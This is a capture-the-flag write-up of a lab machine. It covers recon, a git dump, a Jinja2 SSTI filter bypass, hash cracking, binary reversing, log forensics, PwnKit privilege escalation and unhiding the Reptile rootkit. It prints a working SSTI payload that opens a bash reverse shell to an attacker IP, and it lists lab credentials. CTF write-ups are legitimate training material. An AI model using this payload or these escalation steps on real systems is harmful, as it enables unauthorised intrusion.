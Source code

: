 Started with a nmap scan
```
22 OpenSSH 8.2p1
80 nginx 1.13.12
8888 ? telnet to connect to this 
```
Going to the website there is a `.git` folder we can dump also ran a gobuster scan on the host
```
/configuration
/.git
/login
/logout
/profile
/signup
```
We can also make a account and get access to a dashboard called `alert system v1` and when we login it ask us to configure a smtp server had to make a python script to receive the email and we get are first flag looking at the source code in the git dump `app.py` we notice there is a SSTI vulnerability and when we send `{{7*7}}` the first park `{` does not get rendered so we need to find a way around it and we can see the response in are smtp server we can bypass this with `{% %}` so are payload will looks like this 
`{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash -c "bash -i >& /dev/tcp/10.10.xx.xx/443 0>&1"')]'read']() == 'chiv' %} a {% endif %}` and we get a callback as the root user and we got the second flag we are in the `/app` folder there is another folder called DB with a database in it we can turn this into base64 and then copy it to are machine and decode it and its a SQLite file and we have 7 users take the hashes and now we need to try and crack them and we cracked 5 of the accounts and testing them all we found two that can SSH into the host `pasta:antihacker` and in the home folder of this user we find a file called `crackme` when reversing the file we find in the main function part of the flag and we can make a script to brute the rest of the flag and when I was testing the logins the other account that could SSH was the admin account `administraotr:ihatepasta` and in there home folder there is a elf file called `tcp-server` but we don't have permissions to use it root does if we run strings we can see to possible users `root,pasta` and we have the password for the user pasta and we also notice its the binary running on port `8888` and we get the flag the strings also said that we have mail in the `/var/mail/administraotr` and they said there was something done to `update.php` file and they give us the path to the `apache.log` file and gives us the log format searching in the log file we find sqlmap was modifying it and can make a python script to read the log file were looking for `!=<char>` and convert it to a integer and then convert it to ASCII and we get the flag now we need to privsec as the admin user running linpeas shows a couple exploits we cam run to get root I used PwnKit when we are root there is a file called `chrootkit.txt` and there is the reptile rootkit on the host and doing some google searching we can unhide the files and in the `/`
 folder there is a folder called `reptilezRoberto` we can see after we unhide the files and there is the last flag 

Flags
1. send a email to my self
2. SSTI in the profile url then send email to are smtp and get reverse shell as root 
3. reverse `crackme` file and brute the flag 
4. read the logfile to get the flag
5. go from admin to root flag in root folder 
6. login with the user pasta on port 8888
7.  `/` reptile unhide the files 